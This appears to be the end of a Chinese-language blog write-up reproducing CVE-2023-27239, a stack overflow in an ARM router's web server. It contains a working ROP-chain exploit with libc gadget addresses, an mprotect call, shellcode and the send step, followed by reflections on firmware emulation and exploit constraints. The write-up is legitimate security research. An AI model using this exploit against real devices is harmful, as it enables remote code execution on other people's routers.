Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

shareSpeed='''

libc.address = 0x40a4c000
system = libc.address + 0x000376C8
pop_r456_pc = libc.address + 0x00016748
ldr_r0_r6_0x24_pop_r4_10_pc = libc.address + 0x000d3fec
ldr_r2_r4_4_pop_r4_pc = libc.address + 0x00065244
sub_r0_1_pop_pc = libc.address + 0x000600cc
pop_r3_11_pc = libc.address + 0x000239e0
pop_pc = libc.address + 0x00024928
pop_lr_bx_r3 = libc.address + 0x0005ada4

mprotect = libc.address + 0x000CCBD0
prot = 0x407fd774
unuse = 0xdeadbeef
target = 0x407ff2a0
shellcode_addr = target + 4

payload = b'a'*(0x764)
payload += p32(pop_r3_11_pc) + p32(pop_pc) + p32(unuse)*8
payload += p32(pop_lr_bx_r3) + p32(shellcode_addr)
payload += p32(pop_r456_pc) + p32(unuse)*2 + p32(target-0x24)
payload += p32(ldr_r0_r6_0x24_pop_r4_10_pc) + p32(prot-4) + p32(unuse)*6
payload += p32(ldr_r2_r4_4_pop_r4_pc) + p32(unuse)
payload += p32(sub_r0_1_pop_pc)
payload += p32(mprotect)
payload += p32(target+0x28)
payload += (p32(0x407ff001))
shellcode = final_shellcode
payload += shellcode

io.send(request + quote(payload).encode())
io.close()
```

# 四、总结感悟

通过这次对 `CVE-2023-27239`​ 的复现，我对嵌入式设备漏洞研究的完整流程有了更加直观的认识。与以往只在本地程序上做栈溢出实验不同，本次实践从固件提取、`qemu`​用户态模拟、关键服务启动、逆向定位接口、动态调试崩溃点，到最后围绕约束条件构造利用链，基本覆盖了真实`IoT`漏洞分析中最核心的几个环节。整个过程也让我意识到，漏洞利用真正困难的部分往往在于如何把环境跑起来、如何还原程序原本依赖的运行条件，以及如何在各种现实限制下继续推进利用。

在环境搭建阶段，我最深的体会是：很多时候阻碍分析进度的，并不是漏洞本身，而是目标程序对真实设备环境的依赖。例如本次`httpd`​无法正常启动，并不是因为二进制损坏或调试方式错误，而是因为程序依赖特定网卡名称和配置文件，导致在宿主机的`chroot + qemu-arm`​环境中始终无法正确获取接口地址。这个问题如果只看表面现象，很容易误判为服务异常、端口冲突甚至是`qemu`​模拟失败；但通过动态调试逐步跟踪，定位到`ifaddrs_get_ifip`​的失败，再继续追踪到网卡名称配置文件，最终才把问题真正解决。这个过程让我更加深刻地理解到，在做固件模拟和`IoT`漏洞复现时，分析程序为什么跑不起来本身就是研究工作的重要组成部分。

在漏洞分析与利用阶段，我对`ARM`​架构下栈溢出的理解也明显加深了。虽然此前对栈溢出的认识更多停留在`x86/Linux`​程序的常见模式，而这次需要结合`ARM`​的寄存器传参方式、返回控制流程和`gadgets`​形态来重新思考利用方式，但是据我自己整体做完的感觉可以大胆地下一个判断：底层汇编架构这一块内容的理解、技巧、思路是触类旁通的，对于漏洞利用而言，这些不是最主要的问题。同时在`strcpy`​带来的`\0`​截断限制下，原本直观的`ROP`思路遇到的障碍也让我认识到，漏洞利用并不是套固定模板，而是一个不断根据约束条件调整方案的过程。只有充分理解目标程序、目标架构和具体指令行为，才能从可以触发崩溃进一步走到可以稳定利用。

从安全意义上看，这个漏洞也反映出嵌入式网络设备在输入校验和安全编码方面仍然存在较为基础但危险的问题。将外部可控参数直接交给 `strcpy`​ 处理，本质上属于经典且早已被广泛讨论的安全错误，但在实际设备固件中依旧出现，并且一旦结合网络接口暴露，就可能演变成远程代码执行风险。这说明很多`IoT`设备在功能开发和固件维护过程中，对基础内存安全问题的重视仍然不足。

总体来看，这次复现让我收获最大的并不是最终打通漏洞利用本身，而是对漏洞研究方法论的理解更加完整了。我认识到，面对一个没有现成`exp`​、运行环境又不完善的目标时，最关键的是把问题拆开：先让程序尽可能真实地运行起来，再定位可控点和崩溃点，最后围绕约束逐步设计利用方案。今后如果继续研究路由器、摄像头等`IoT`设备漏洞，我会更加重视环境还原、运行依赖分析以及利用约束建模，而不是一开始就急于追求最终的攻击效果。

最后，我也要对我的方法进行反思。整个漏洞的利用过程用了大约三整天的时间来调通，这在`LLM`​发展如此迅猛的时代的效率是极其低下的。新的时代、新的生产力条件下，我不能再抱守着所谓的“老艺术家” “手搓”的“优良传统”，而应该更善于利用好`LLM`，提高自身效率，这是时代所要求的，也是我所欠缺的。

‍
